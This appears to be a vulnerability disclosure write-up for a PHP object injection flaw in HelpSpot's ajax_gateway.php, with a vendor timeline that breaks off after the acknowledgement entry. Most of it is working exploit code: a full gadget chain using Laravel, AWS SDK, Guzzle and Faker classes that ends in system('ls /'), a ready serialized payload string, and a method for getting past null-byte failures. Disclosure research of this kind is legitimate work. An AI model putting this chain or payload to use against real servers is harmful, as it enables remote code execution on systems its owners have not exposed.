

### Serialization and deserialization


### Basic stuffs

1. **`__construct`**: Called when an object is created.
2. **`__destruct`**: Called when an object is about to be destroyed.
3. **`__call`**: Called when an inaccessible method is called on an object.
4. **`__callStatic`**: Called when an inaccessible static method is called on a class.
5. **`__get`**: Called when an inaccessible property is accessed.
6. **`__set`**: Called when an inaccessible property is set.
7. **`__isset`**: Called when **`isset()`** or **`empty()`** is called on an inaccessible property.
8. **`__unset`**: Called when **`unset()`** is called on an inaccessible property.
9. **`__sleep`**: Called before an object is serialized.
10. **`__wakeup`**: Called after an object is unserialized.
11. **`__toString`**: Called when an object is used as a string.
12. **`__invoke`**: Called when an object is used as a function.
13. **`__set_state`**: Called for classes exported by **`var_export()`**.
14. **`__clone`**: Called when an object is cloned.
15. **`__debugInfo`**: Called by **`var_dump()`** when dumping an object.

## local Setup

```php
<?php

require __DIR__.'/vendor/autoload.php';

function sanitize_serialize($var, $default=[])
{
    $var = trim($var);
    echo $var ;
    if (is_string($var) && ! empty($var)) {
        return unserialize($var);
} else {
    return $default;
}

}

if (isset($_GET['source'])) {
    highlight_file(__FILE__);
    exit();
}

if (isset($_POST['data'])) {
    if (strpos($_POST['data'],'a:0') !== false){
        sanitize_serialize($_POST['data']);
    }
    else{
        echo "You are not allowed to do that!";
    }
}

?>
```

The sanitize_serialize function trims the input string "\$var" to remove leading and trailing whitespace, echoes the trimmed string for debugging, and then checks if it is a non-empty string. If so, it attempts to unserialize the string using unserialize() and returns the result; otherwise, it returns the specified default value $default. This function is designed to handle cases where the input variable is expected to be a serialized string, and it ensures proper sanitization and fallback to a default value if the input is not a valid serialized string.


in order to setup a local debug env i adopted this method to avoid any attack complexity and target directly the security mechanism
implemented and be straight to the point trying to mock this functionality

**path :** 1. helpspot/helpspot/pages/ajax_gateway.php


The vulnerability exists where a POST parameter is directly passed to the **hs_unserialize** function, intended to protect against arbitrary deserialization


we can see in the function defenition that’s it’s still touches `unserialize()` 

## `hs_unserialize`

PHP versions 7.1 and above are not case-sensitive when it comes to member properties in a class. This means that if the target
server is running PHP 7.1 or later, you can modify all the properties involved in the class to be public. This eliminates the issue of
null bytes, and you can still trigger deserialization.

```php
<?php
function hs_unserialize($var, $default = [])
{
    $var = trim($var);
    echo $var;
    if (is_string($var) && ! empty($var)) {
        return unserialize($var);
    } else {
        return $default;
    }
}
class A {
    private $cmd = "phpinfo()";
    public function __destruct()
    {
        $this->cmd;
    }
}

hs_unserialize('O:1:"A":1:{s:3:"cmd";s:7:"success";}');
```


**OUR GADGET CHAIN WILL BE** 


## Remote Code Execution - POP chain

- __destruct method in ⇒ ./vendor/laravel/framework/src/Illuminate/Broadcasting/PendingBroadcast.php.



Here, you can trigger any "__call" method. Following that, I found the "__call" method in

- ./vendor/laravel/framework/src/Illuminate/Collections/HigherOrderCollectionProxy.php.


Here, you can trigger any method of any class, and the passed parameter is an anonymous function. 

So, in essence, you can invoke any class's method with arguments. At this point, we can call the "read($length)" method of the HashingStream class in

- ./vendor/aws/aws-sdk-php/src/HashingStream.php.


Then, the remaining steps are similar. Find a usable **`eof()`** method to bypass the **`if`** statement. Use the **`__call`** method from the **`Faker\DefaultGenerator`** class to set the value of **`$result`**. The use of **`call_user_func`** eventually leads to Remote Code Execution (RCE) . 

The following POP chain can exploit this vulnerability, using vendor-supplied gadgets in Laravel and AWS SDK components:

```php
<?php
namespace League\Flysystem{
    abstract class Handler {
        protected $path;
        protected $filesystem;
    }
    class File extends Handler {
        public function __construct($a,$b)
        {
            $this->filesystem = $a;
            $this->path = $b;
        }
    }
}

namespace GuzzleHttp\Psr7{
    class BufferStream {
        public $buffer;
        public function __construct($a){
            $this->buffer = $a;
        }
    }
    trait StreamDecoratorTrait
    {
        public $stream;
        public function __construct($a){
            $this->stream = $a;
        }
    }
}

namespace Aws{
    use GuzzleHttp\Psr7\StreamDecoratorTrait;
    class PhpHash {
        private $hash;
        private $options;
        private $context;
        private $algo;
        public function __construct($a)
        {
            $this->hash = $a;
        }
    }

    class HashingStream{
        use StreamDecoratorTrait;
        private $hash;
        private $callback;
        public $stream;
        public function __construct($a,$b,$c)
        {
            $this->hash = $a;
            $this->callback = $b;
            $this->stream = $c;
        }
    }
}

namespace Faker{
    class DefaultGenerator
    {
        protected $default;
        public function __construct($a)
        {
            $this->default = $a;
        }
    }
}
namespace Illuminate\Support{
class HigherOrderCollectionProxy
    {
        protected $collection;
        protected $method;
        public function __construct($a,$b)
        {
            $this->collection = $a;
            $this->method = $b;
        }
    }
}

namespace Illuminate\Broadcasting{
    class PendingBroadcast {
        protected $events;
        protected $event;
        protected $a;
        public function __construct($a,$b)
        {
            $this->events = $a;
            $this->event = $b;
            $this->a = array();
        }
    }
}

namespace {
    use Illuminate\Broadcasting;
    use GuzzleHttp\Psr7;
    use League\Flysystem;
    use Illuminate\Support;
    $obj = new Illuminate\Broadcasting\PendingBroadcast(
        new Illuminate\Support\HigherOrderCollectionProxy(
            new Aws\HashingStream(
                new Faker\DefaultGenerator("ls /"),
                "system",
                new GuzzleHttp\Psr7\BufferStream("")
            ),"read"
        ),1
    );

    echo urlencode(serialize($obj));
}

?>
```

Adopted Exploit for `hs_unserialize()` : 

We are encountering null byte issues during the serialization of private and protected properties. This results in serialized data containing sequences like s:3":%00a%00", where applying trim() leaves us with s:3:"a", ultimately affecting the data length and causing unserialization to fail.

As a solution, PHP 7.1 and later offer a way to handle this. In these versions, member property names in a class are not case-sensitive, allowing you to convert all properties to public without impacting functionality. By making this change, null bytes are no longer introduced during serialization, enabling seamless deserialization while maintaining intended behavior.


```php
<?php
require __DIR__.'/vendor/autoload.php';

function sanitize_serialize($var, $default=[])
{
    $var = trim($var);
    echo $var;
    if (is_string($var) && !empty($var)) {
        return unserialize($var);
    } else {
        return $default;
    }
}
sanitize_serialize('O:40:"Illuminate\Broadcasting\PendingBroadcast":3:{s:6:"events";O:45:"Illuminate\Support\HigherOrderCollectionProxy":2:{s:10:"collection";O:17:"Aws\HashingStream":3:{s:4:"hash";O:22:"Faker\DefaultGenerator":1:{s:7:"default";s:4:"ls /";}s:8:"callback";s:6:"system";s:6:"stream";O:28:"GuzzleHttp\Psr7\BufferStream":1:{s:6:"buffer";s:0:"";}}s:6:"method";s:4:"read";}s:5:"event";i:1;s:1:"a";a:0:{}}');
```


This vulnerability arises from unsanitized input being directly passed to PHP’s unserialize() function, creating an opportunity for remote code execution (RCE) through PHP Object Injection (POI). Here’s a breakdown of how this vulnerability is exploited:

- Entry Point in hs_unserialize(): The vulnerable function, hs_unserialize(), accepts arbitrary serialized data as input. It lacks proper validation, making it possible to pass crafted serialized payloads containing malicious objects.

- Gadget Chain for Exploitation: By using a chain of existing classes (gadgets) from third-party libraries, attackers can construct a payload that exploits __destruct, __call, and other magic methods to achieve RCE. Here, Laravel and AWS SDK classes offer accessible gadgets to build the necessary chain, eventually invoking call_user_func() or another dangerous function.

- Null Byte Issue: In PHP, private and protected properties add null bytes during serialization, impacting the payload's structure and causing unserialization failures. However, we bypassed that since  class properties are case-insensitive, allowing all properties to be set to public, eliminating null bytes and bypassing this limitation.

- RCE Execution: Once the payload is successfully unserialized, the chain of methods and classes leads to remote command execution, allowing arbitrary system commands to run on the target serve

# Timeline:

1 - Report Submitted: The report was submitted to Vendor's Support on December 18, 2023.

2 - Acknowledgement from Vendor's Support: On December 18, 2023, at 9:49 PM 